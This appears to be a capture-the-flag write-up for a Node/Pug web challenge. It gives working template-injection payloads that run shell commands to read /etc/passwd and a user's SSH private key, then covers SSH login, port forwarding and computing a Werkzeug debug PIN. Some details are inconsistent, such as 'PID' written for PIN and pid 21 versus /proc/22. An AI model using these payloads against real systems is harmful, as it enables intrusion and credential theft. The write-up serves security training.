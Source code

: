 # Demo Library
There is a web app were we were able to discover that web pages were served by the pug runtime library `https://www.npmjs.com/package/pug-runtime?activeTab=code` from a node server and that `/admin/requests/<uuid>` could be used to ask for some info.


![admin.JPG](admin.JPG)



Requesting a non existent page we get the pug library error:

> https://ctfdemo.interlogica.ninja/library/document/<doc_id>

![document.JPG](document.JPG)


```
TypeError: document.pug:13
    11|         else
    12|             div.centered - ENTRY NOT FOUND -
  > 13|     button.button.more-info(disabled=!document.moreInfoAvailable, onclick='requestMoreInfo("'+document.id+'")') Request more info
    14|     button.button.back(onclick='location="/library/"') Back
    15| 

Cannot read properties of undefined (reading 'moreInfoAvailable')
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:62:102)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:117:7)
    at /app/app.js:36:14
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:149:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at param (/app/node_modules/express/lib/router/index.js:365:14)
    at param (/app/node_modules/express/lib/router/index.js:376:14)
```

## Prologue: The Library

First of all a light nmap scan for open ports:

```shell
nmap -sV ctfdemo.interlogica.ninja
```
We can see two open ports: 443 for https and 2222 for ssh.

Let's visit the website.
By fuzzing the filter we find out that we get an error if we input something like `#{` or `#[`, which reveals to us that
the Pug templating engine is in use and that it's vulnerable to SSTI. We can then leverage the vulnerability to perform
RCE.
Let's first read some local files:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

We see that the user `dave` exists. Let's see if he has a private ssh key that we can snatch:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/home/dave/.ssh/id_rsa']).stdout}

Alright. Now we can connect via ssh using dave's private key:

```shell
chmod 600 <dave_id_rsa>
ssh dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p 2222
```

While pillaging, we find out that a python application is running locally on port 5000 with the following command:

```shell
netstat -tulpn
```

Since the application only accepts connections from localhost, from our attack machine we can use ssh to do a local port
forward:

```shell
ssh -L 5001:127.0.0.1:5000 dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p <ssh_port>
```

Now we can access the remote python service on local port 5001.
By dirbusting with the provided wordlist, we find out that the `/console` page is available, which means that the
application is running with the debug mode activated.
We can retrieve the pin using the following guide:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

We have to fill the following stuff:

```python
probably_public_bits = [
    '<username>',
    'flask.app',
    'Flask',
    '<app.py_location>'
]

private_bits = [
    '<private_bit_1>',
    '<private_bit_2>'
]
```

Let's find the location of the flask `app.py`:

```shell
find / -type f  -name app.py 2>/dev/null
/usr/local/lib/python3.10/site-packages/flask/sansio/app.py
/usr/local/lib/python3.10/site-packages/flask/app.py
```
So `/usr/local/lib/python3.10/site-packages/flask/app.py` it is.

Then:

```shell
python -c "import uuid;print(str(uuid.getnode()))"
2485378023426
```

gives us the value of `private_bit_1`. NOTE: this value and/or the value of `private_bit_2` will change at every reboot.
Let's calculate the value of `private_bit_2`:

```shell
cat /proc/sys/kernel/random/boot_id
1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74
ps aux | grep python
8 admin     0:00 python3 /home/admin/app.py
21 admin     0:01 /usr/local/bin/python3 /home/admin/app.py
79 dave      0:00 grep python
```

so the username is `admin`. The pid is `21`.

```shell
head -n 1 /proc/22/cgroup | awk -F/ '{print $NF}'
9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10
```

The value of `private_bit_2` then is the concatenation of `1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74`
and `9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10`.

Let's put the values we found in the python script and let's run it.

```python
probably_public_bits = [
    'admin',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',
    '1d0ab7ff-1550-45ca-a92d-3b4ed58eaa749c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10'
]
```

We got the PID! Now we can open the file we want to read:

```python
with open('/admin/requests/<uuid>', 'r') as file:
    print(file.read())
```
Let's visit the url in the file now!

Ouch.